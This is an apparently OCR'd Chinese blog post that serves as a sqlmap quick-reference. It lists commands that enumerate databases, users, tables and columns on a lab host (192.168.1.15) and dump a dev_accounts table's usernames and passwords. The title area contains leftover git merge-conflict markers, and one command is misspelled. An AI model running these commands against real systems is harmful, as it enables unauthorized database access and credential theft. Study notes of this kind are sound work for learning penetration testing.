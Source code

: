 ```yaml
---
​---
layout:     post
title:      sqlmap
subtitle:   sqlmap基础知识笔记
date:       2020-8-1
author:     xiwang
header-img: img/tag-bg-o.jpg
catalog: true
tags:
    - sqlmap
    - sqlmanp
​---

---
```

<<<<<<< HEAD:_posts/sqlmanp速查手册.md

#                                         >sqlmanp速查手册
=======
>
#                                         sqlmanp速查手册
>>>>>>> b2ce234c972db59b9690f81faf69e7c17f972bb1:_帖子/sqlmanp速查手册.md

#### 常见步骤

```shell
#获取数据库
sqlmap -u http://192.168.1.15/gallery/gallery.php?id=1 --dbs
#获取当用户名称
sqlmap -u http://192.168.1.15/gallery/gallery.php?id=1 --current-user
#获取当前database name
sqlmap -u http://192.168.1.15/gallery/gallery.php?id=1 --current-db
#列出表名
sqlmap -u http://192.168.1.15/gallery/gallery.php?id=1 -D gallery --tables
#列出字段
qlmap -u http://192.168.1.15/gallery/gallery.php?id=1 -D gallery -T dev_accounts --columns
#获取字段内容
sqlmap -u http://192.168.1.15/gallery/gallery.php?id=1 -D gallery -T dev_accounts -C id,password,username --dump
```

